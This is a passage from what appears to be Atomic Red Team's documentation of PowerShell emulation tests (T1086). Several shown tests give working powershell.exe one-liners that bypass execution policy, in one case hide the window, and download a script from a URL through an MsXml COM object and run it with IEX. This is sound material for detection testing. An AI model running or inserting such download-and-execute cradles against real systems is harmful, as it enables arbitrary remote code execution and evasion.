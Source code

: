 
#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| url | url of payload to execute | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1086/payloads/test.ps1|


#### Run it with `command_prompt`! 
```
powershell.exe IEX -exec bypass -windowstyle hidden -noprofile "$comMsXml=New-Object -ComObject MsXml2.ServerXmlHttp;$comMsXml.Open('GET','#{url}',$False);$comMsXml.Send();IEX $comMsXml.ResponseText"
```



<br/>
<br/>

## Atomic Test #8 - Powershell MsXml COM object - with prompt
Provided by https://github.com/mgreen27/mgreen27.github.io
Powershell MsXml COM object.
Not proxy aware removing cache although does not appear to write to those locations

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| url | url of payload to execute | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1086/payloads/test.ps1|


#### Run it with `command_prompt`! 
```
powershell.exe -exec bypass -noprofile "$comMsXml=New-Object -ComObject MsXml2.ServerXmlHttp;$comMsXml.Open('GET','#{url}',$False);$comMsXml.Send();IEX $comMsXml.ResponseText"
```



<br/>
<br/>

## Atomic Test #9 - Powershell XML requests
Provided by https://github.com/mgreen27/mgreen27.github.io
Powershell xml download request

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| url | url of payload to execute | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1086/payloads/test.xml|
